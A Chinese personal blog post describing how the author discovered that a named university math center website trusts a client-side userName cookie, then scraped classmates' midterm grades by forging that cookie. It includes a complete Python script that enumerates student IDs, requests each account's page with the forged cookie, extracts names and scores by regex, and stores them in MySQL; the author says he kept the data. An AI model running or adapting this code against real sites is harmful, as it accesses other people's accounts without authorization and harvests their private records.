 ```yaml
---
title:  期中成绩爬虫
date:   2016-05-07 23:24
---
```


<script src="{{ site.baseurl }}/assets/prism.js" ></script>

## 背景

今天进行了期中考试，考完之后看他们在查别人的成绩，一个一个的查真痛苦→_→，于是我就想，这不是正好这几天在尝试爬虫，那我就写个爬虫获取一下整个学院的人的成绩吧

<div class="divider"></div>

## 过程

本来还想着，这次可不是微博那种一个Cookie闯天下，得好好看看模拟登陆是怎么回事了，结果，之后我就惊呆了！

打开[数学中心的网站](http://centermath.hit.edu.cn/)，登陆，看看Cookie，内容如下:


|Name                |Content                 |
|--------------------|------------------------|
|CourseID            |0                       |
|ASPSESSIONIDQABRRRSB|JEELCIDDJDFNHKEGNDJKJMOE|
|CWUserLogined       |1                       |
|photo               |boy%2Egif               |
|trueName            |%D1%A6%D6%D9%BA%C0      |
|userKind            |student                 |
|userName            |115××××××6              |

欸？貌似只有个userName可以认定这到底是谁登陆的啊，trueName是名字的gb2312码，这个应该作用不大，毕竟有重名。

真正需要的成绩信息是点击**在线测试**后得到那个网页，按F12，看看源码，这网址也是固定的，就是在[数学中心网站](http://centermath.hit.edu.cn/)的后面加上“zxcs”，这名字起的，浓浓中国风啊(￣▽￣)"

我决定拿python获取一下这个在线测试的网页，获取的时候headers里直接加上cookie。就在此时，抱着试一试的心态，悄悄把cookie中的userName改成了115××××××7，获取网页，居然成功了！！！

我去，此刻我终于明白了为什么那么多人的爬虫都起步于学校的网站(⊙o⊙)，我就改一下数字就进入了别人的账号？？那密码根本就是搞笑的嘛，为因为忘记密码而影响考试的同学默哀。

既然网页都获取到了，剩下的步骤就很简单了，穷举学号，获取网页，正则提取成绩即可

<div class="divider"></div>

## 代码

代码是用python写的，其实爬虫我只会python，真的是不要太方便。

我还顺便把这些存到数据库里了，方便以后查询ˇ∀ˇ

```python
import urllib.request
import mysql.connector
import re
import time

#Initialization
print('Initializing...', end='')
address = 'http://centermath.hit.edu.cn/zxcs/'
user_agent = 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0'
cookie_head = 'CourseID=0; ASPSESSIONIDQABRRRSB=LGAKCIDDEBIJFFPDGLNNNHPI; CWUserLogined=1; photo=boy%2Egif; trueName=%C2%ED%C8%FC%BF%CB; userKind=student; userName='
pattern = re.compile(r'<div class="regards">.*?：(.*?)&.*?</div>.*?<a href="javascript:void\(0\)".*?>(.*?)</a>', re.S)
print('[Done]')

#Database|MySQL
print('Connecting to the database...', end='')
conn = mysql.connector.connect(user='root', database='samp_db')
cur = conn.cursor()
print('[Done]')

begin = int(input('Input the begin:'))
end   = int(input('Input  the  end:'))

for i in range(begin, end+1):
    print('Request for ID:%d...' % i, end='')
    cur.execute(("select * from students where id = %d" % i))
    ans = cur.fetchall()
    if(len(ans) > 0):
        print('[Exists](%s, %d)' % ans[0][1:])
    else:
        cookie = cookie_head + str(i)
        headers = {
            'User-Agent': user_agent,
            'Cookie': cookie,
            }
        request = urllib.request.Request(address, headers = headers)
        try:
            response = urllib.request.urlopen(request)
            time.sleep(1)
        except urllib.request.URLError as e:
            if hasattr(e, 'code'):
                print(e.code)
            if hasattr(e, 'reason'):
                print(e.reason)
        try:
            st = response.read().decode('gb2312')
        except:
            print('[Read Error]')
            cur.execute(("insert into students(id, name, score) values (%d, '%s', %s)" % (i, 'None', 0)))
            conn.commit()
            continue            
        st = re.findall(pattern, st)
        if(len(st) > 0):
            st = st[0]
            print('[Done](%s, %s)' % st)
            cur.execute(("insert into students(id, name, score) values (%d, '%s', %s)" % (i, st[0], st[1])))
            conn.commit()
        else:
            print('[Not Found]')

cur.close()
conn.close()

```

<div class="divider"></div>

## 简单分析

现在的学霸真是越来越多了，受不了的好吧，考个18分只是勉强过得去，16分排名就三位数了！→_→

凡是有成绩的同学，最低分8分，有7个人没有成绩，可能是旷考或者考的时候出问题了。

<img src="{{ site.baseurl }}/assets/mid_score1.jpg" />

上面这个图是来用[Raw](http://raw.densitydesign.org/)制作出来的，看起来很高端，但貌似效果并不好。好吧，于是又做了一个简单粗暴，通俗易懂的柱状图&折线图。

<img src="{{ site.baseurl }}/assets/mid_score2.png" />

至此，爬取同学们的成绩就结束了。（但数据我保留下来了，hiahia~）

<div class="divider"></div>